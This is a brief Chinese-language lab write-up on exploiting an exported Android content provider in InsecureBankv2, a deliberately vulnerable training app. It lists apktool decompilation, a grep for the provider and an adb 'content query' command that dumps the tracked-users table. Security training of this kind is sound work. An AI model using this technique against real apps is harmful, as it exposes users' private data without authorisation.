




# Exploiting Android Content Provider

### 1. 实验过程

- **表 URI 定位**

    - 使用 apktool 反编译 `InsecureBankv2.apk`

        ```
        C:> apktool d InsecureBankv2.apk
        ```

    - 在 `AndroidManifest.xml` 中找到 ContentProvider 声明

        

    - 在反编译 Project 下通过搜索 `TrackUserContentProvider` 查找表 URI

        ```
        $ grep 'TrackUserContentProvider' -R .
        ```

        

        

    - 在 shell 里快乐查表

        ```
        # content query --uri content://com.android.insecurebankv2.TrackUserContentProvider/trackerusers
        ```

        

### 2. 参考资料

- [内容提供程序基础知识 | Android Developers](https://developer.android.com/guide/topics/providers/content-provider-basics#ContentURIs)